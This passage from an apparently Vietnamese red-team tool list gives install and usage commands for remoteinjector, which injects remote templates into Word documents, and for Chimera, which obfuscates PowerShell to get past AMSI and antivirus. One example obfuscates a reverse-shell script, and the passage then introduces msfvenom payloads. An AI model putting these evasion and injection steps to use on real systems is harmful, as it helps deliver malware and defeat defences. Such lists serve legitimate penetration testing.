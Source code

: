 [Bài đăng trên Blog liên quan](https://john-woodman.com/research/vba-macro-remote-template-injection/)

**Cài đặt:**

```bash
git clone https://github.com/JohnWoodman/remoteinjector;cd remoteinjector
```
**Lưu ý:** Cài đặt tiêu chuẩn bằng **Git** và điều hướng đến thư mục của công cụ.

**Cách sử dụng:**

```bash
python3 remoteinjector.py -w https://example.com/template.dotm example.docx
```
**Lưu ý:** Lệnh này chạy **script Python remoteinjector.py** với cờ `-w` chỉ định URL của mẫu từ xa và đối số cuối cùng là tệp `.docx` sẽ bị sửa đổi.

### [🔙](#tool-list)[**Chimera**](https://github.com/tokyoneon/Chimera)

**Chimera** là một **script PowerShell** dùng để che giấu (**obfuscation**) nhằm bỏ qua **AMSI** và các giải pháp **antivirus**. Nó xử lý các **script PowerShell** độc hại được biết là gây kích hoạt **AV** và sử dụng kỹ thuật thay thế chuỗi (**string substitution**) và ghép biến (**variable concatenation**) để né tránh các chữ ký phát hiện thông thường.

**Cài đặt:**

```bash
sudo apt-get update && sudo apt-get install -Vy sed xxd libc-bin curl jq perl gawk grep coreutils git
sudo git clone https://github.com/tokyoneon/chimera /opt/chimera
sudo chown $USER:$USER -R /opt/chimera/; cd /opt/chimera/
sudo chmod +x chimera.sh; ./chimera.sh --help
```
**Lưu ý:** Các lệnh cài đặt dependency (`sed`, `xxd`, ...) và mã nguồn của **Chimera** trên các hệ thống **Linux/Debian/Ubuntu** sử dụng **apt** và **Git**. `sudo` yêu cầu quyền **super user**. Chú ý các lệnh thay đổi quyền sở hữu và thực thi.

**Cách sử dụng:**

```bash
./chimera.sh -f shells/Invoke-PowerShellTcp.ps1 -l 3 -o /tmp/chimera.ps1 -v -t powershell,windows,\
copyright -c -i -h -s length,get-location,ascii,stop,close,getstream -b new-object,reverse,\
invoke-expression,out-string,write-error -j -g -k -r -p
```
**Lưu ý:** Ví dụ sử dụng **script bash chimera.sh** với nhiều tùy chọn khác nhau để che giấu một tệp **PowerShell** cụ thể (`-f`), đặt mức độ che giấu (`-l`), lưu kết quả ra tệp (`-o`), bật chế độ chi tiết (`-v`), chỉ định các loại chuyển đổi/mục tiêu che giấu (`-t`, `-c`, `-i`, `-h`, `-s`, `-b`, `-j`, `-g`, `-k`, `-r`, `-p`). Đây là một lệnh phức tạp thể hiện sự đa dạng trong tùy chọn che giấu.

![image](https://user-images.githubusercontent.com/100603074/209867736-5c35cec0-9227-4f18-a439-a5c954342818.png)

### [🔙](#tool-list)[**msfvenom**](https://www.offensive-security.com/metasploit-unleashed/Msfvenom/)

**Msfvenom** cho phép tạo các **payload** cho các hệ điều hành khác nhau với nhiều định dạng đa dạng. Nó cũng hỗ trợ che giấu **payload** để bỏ qua AV.
